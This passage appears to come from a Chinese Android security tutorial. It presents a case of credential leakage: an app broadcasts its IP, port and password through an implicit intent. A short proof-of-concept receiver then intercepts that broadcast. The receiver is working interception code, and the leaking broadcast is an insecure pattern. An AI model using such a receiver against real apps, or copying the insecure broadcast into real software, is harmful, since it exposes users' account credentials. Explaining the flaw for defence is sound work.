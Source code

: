  
 
**案例3：敏感信息泄漏**

某应用利用广播传输用户账号密码
 
![](img/break.png)

隐式意图发送敏感信息

	#!java
	public class ServerService extends Service {
	  // ...
	  private void d() {
	    // ...
	    Intent v1 = new Intent();
	    v1.setAction("com.sample.action.server_running");
	    v1.putExtra("local_ip", v0.h);
	    v1.putExtra("port", v0.i);
	    v1.putExtra("code", v0.g);
	    v1.putExtra("connected", v0.s);
	    v1.putExtra("pwd_predefined", v0.r);
	    if (!TextUtils.isEmpty(v0.t)) {
	      v1.putExtra("connected_usr", v0.t);
	    }
	  }
	  this.sendBroadcast(v1);
	}
	
接收POC


	#！java
	public class BcReceiv extends BroadcastReceiver {
	  @Override
	  public void onReceive(Context context, Intent intent){
     
	    String s = null;
	    if (intent.getAction().equals("com.sample.action.server_running")){
	      String pwd = intent.getStringExtra("connected");
	      s = "Airdroid  => [" + pwd + "]/" + intent.getExtras();
	    }
	    Toast.makeText(context, String.format("%s Received", s),
	                   Toast.LENGTH_SHORT).show();
	  }
	}
	